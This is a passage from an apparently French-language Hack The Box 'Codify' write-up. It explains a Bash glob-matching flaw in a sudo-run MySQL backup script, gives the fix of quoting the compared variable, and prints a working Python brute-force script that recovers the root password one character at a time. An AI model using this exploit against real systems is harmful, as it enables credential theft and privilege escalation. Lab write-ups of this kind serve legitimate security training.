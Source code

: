 ```bash
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

L'image ci-dessous identifie la vulnérabilité du script. Avec Bash, lorsque la partie droite de l'opérateur `==` d'une expression conditionnelle (entre doubles crochets `[[ ... ]]`) n'est pas placée entre guillemets, Bash effectue un "pattern matching" (également appelé "globbing") au lieu de l'interpréter comme une chaîne de caractères.

![mysql-backup.sh script vulnerability](/images/HTB-Codify/script-vulnerability.png)

Par exemple, si le mot de passe est `hello`, `[[$DB_PASS == hello]]` et `[[$DB_PASS == h*]]` fonctionneront tous les deux car `h*` est un "pattern" qui correspond à n'importe quelle chaîne commençant par la lettre `h`. Sachant cela, une attaque par force brute du mot de passe devient une solution viable.

> Pour résoudre ce problème, vous devez mettre entre guillemets la variable `$USER_PASS` dans la comparaison, comme suit : `if [[ $DB_PASS == "$USER_PASS" ]] ; then`. Cela garantit que la valeur de `$USER_PASS` est traitée comme une chaîne de caractères, et non comme un motif.

Voici le script Python que j'ai utilisé

```Python
import string
import os

chars = string.ascii_letters + string.digits
password=''
next=1

print("[+] initializing bruteforce script...")
print("[+] bruteforce in progress, please wait...")
while next==1:
        for i in chars:
                errorlevel=os.system("echo "+password+i+"* | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1")
                if errorlevel==0:
                        password=password+i
                        print("[+] new character found: "+password)
                        next=1
                        break
                else: next=0
print("[+] process terminated, root password is: "+password)
```
